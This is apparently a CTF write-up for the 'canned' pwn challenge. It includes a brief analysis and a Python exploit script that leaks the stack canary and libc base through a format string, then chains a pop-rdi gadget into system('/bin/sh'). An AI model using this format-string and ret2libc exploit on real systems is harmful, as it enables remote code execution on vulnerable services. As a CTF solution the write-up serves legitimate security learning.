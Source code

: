 
## canned (491pt)
### Description

> I think i got my flag stuck in a can, can you open it for me 
>
> nc 35.238.225.156 1007 
>
> Author: Viper_S


### Attachment

[canned](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/canned/canned)

### Analysis

No PIE, leak `libc` and `canary` then `ret2libc`

### Solution

```python
prdi = 0x00000000004012bb # pop rdi ; ret

sla('Say something please\n','%15$p%17$p')
canary = int(rc(len('0xb12bbce59c5ee300')),16)
libcbase = int(rc(len('0x7f19e320d0b3')),16) - 0x21bf7

sh = libc.search('/bin/sh').next() + libcbase
system = libc.sym['system'] + libcbase

payload = cyclic(24)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(prdi+1)
payload += p64(prdi) + p64(sh)
payload += p64(system)

sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/boot2root/pwn/canned) 


